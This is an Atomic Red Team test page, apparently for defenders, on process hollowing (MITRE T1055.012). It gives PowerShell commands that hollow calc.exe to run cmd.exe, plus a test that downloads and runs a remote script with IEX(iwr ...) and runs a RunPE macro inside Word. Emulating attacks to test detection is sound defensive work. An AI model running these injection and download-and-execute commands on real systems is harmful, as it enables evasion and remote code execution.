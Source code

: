 # T1055.012 - Process Hollowing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/012)
<blockquote>Adversaries may inject malicious code into suspended and hollowed processes in order to evade process-based defenses. Process hollowing is a method of executing arbitrary code in the address space of a separate live process.  

Process hollowing is commonly performed by creating a process in a suspended state then unmapping/hollowing its memory, which can then be replaced with malicious code. A victim process can be created with native Windows API calls such as <code>CreateProcess</code>, which includes a flag to suspend the processes primary thread. At this point the process can be unmapped using APIs calls such as <code>ZwUnmapViewOfSection</code> or <code>NtUnmapViewOfSection</code>  before being written to, realigned to the injected code, and resumed via <code>VirtualAllocEx</code>, <code>WriteProcessMemory</code>, <code>SetThreadContext</code>, then <code>ResumeThread</code> respectively.(Citation: Leitch Hollowing)(Citation: Endgame Process Injection July 2017)

This is very similar to [Thread Local Storage](https://attack.mitre.org/techniques/T1055/005) but creates a new process rather than targeting an existing process. This behavior will likely not result in elevated privileges since the injected process was spawned from (and thus inherits the security context) of the injecting process. However, execution via process hollowing may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Hollowing using PowerShell](#atomic-test-1---process-hollowing-using-powershell)

- [Atomic Test #2 - RunPE via VBA](#atomic-test-2---runpe-via-vba)


<br/>

## Atomic Test #1 - Process Hollowing using PowerShell
This test uses PowerShell to create a Hollow from a PE on disk with explorer as the parent.
Credit to FuzzySecurity (https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1)

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow (executable that will run inside the sponsor) | string | C:&#92;Windows&#92;System32&#92;cmd.exe|
| parent_process_name | Name of the parent process | string | explorer|
| sponsor_binary_path | Path of the sponsor binary (executable that will host the binary) | string | C:&#92;Windows&#92;System32&#92;calc.exe|
| spawnto_process_name | Name of the process to spawn | string | calc|


#### Attack Commands: Run with `powershell`! 


```powershell
. $PathToAtomicsFolder\T1055.012\src\Start-Hollow.ps1
$ppid=Get-Process #{parent_process_name} | select -expand id
Start-Hollow -Sponsor "#{sponsor_binary_path}" -Hollow "#{hollow_binary_path}" -ParentPID $ppid -Verbose
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - RunPE via VBA
This module executes calc.exe from within the WINWORD.EXE process

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1") 
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1055.012\src\T1055.012-macrocode.txt" -officeProduct "#{ms_product}" -sub "Exploit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
